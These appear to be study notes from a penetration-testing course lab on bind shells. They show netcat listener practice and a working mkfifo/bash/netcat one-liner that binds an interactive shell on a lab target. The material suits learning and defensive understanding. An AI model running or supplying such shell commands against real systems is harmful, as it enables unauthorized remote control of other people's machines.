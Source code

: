 Main goal here is to establish a shell on a local or remote system. We will be looking to use the terminal emulator app on our local attack box to control the remote system. This is typically done by a reverse or bind shell.

Bind Shell Example:

- The target has a listener started and awaits a connection from the attackers machine.
    - Target Machine nc -lvnp 1337
        - This establishes a listener on our target machine on port 1337
- Challenges may include:
    - Having a listener already no the target machine.
    - If no listener, we would have to find a way to get one started.
    - Admins typically configure strict incoming firewall rules and NAT on the edge of the network, so we would need internal access already.
    - Operating system firewall would likely block most incoming connections that aren’t associated with trusted network-based applications.

**Practicing with Netcat:**

First, let’s start the listener on the target:

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```

Next, Let’s establish the connection from our Attacking Box:

```bash
realCustampin@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

We can then see on the target that we get a connection in return:

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

Now, we can send a message from the Attack Box to the Target:

```bash
realCustampin@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

- We type out the message “Hello Academy” after we connect.

We can then see that message on our target host:

```bash
Victim@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

**Creating a Real Bind Shell**

1. Binding a Bash Shell to the TCP Session: 1.
    
    `Target@server:~**$** rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i **2**>**&1** | nc -l 10.129.41.200 7777 > /tmp/f`
    
2. Connecting to the bind shell on the target: 1.
    
    ```bash
    realCustampin@htb[/htb]$ nc -nv 10.129.41.200 7777
    
    Target@server:~$
    ```
    
3. Notice that we now have an interactive bind shell to the target host.
    

Reminder: We had access to both resources, which isn’t typical.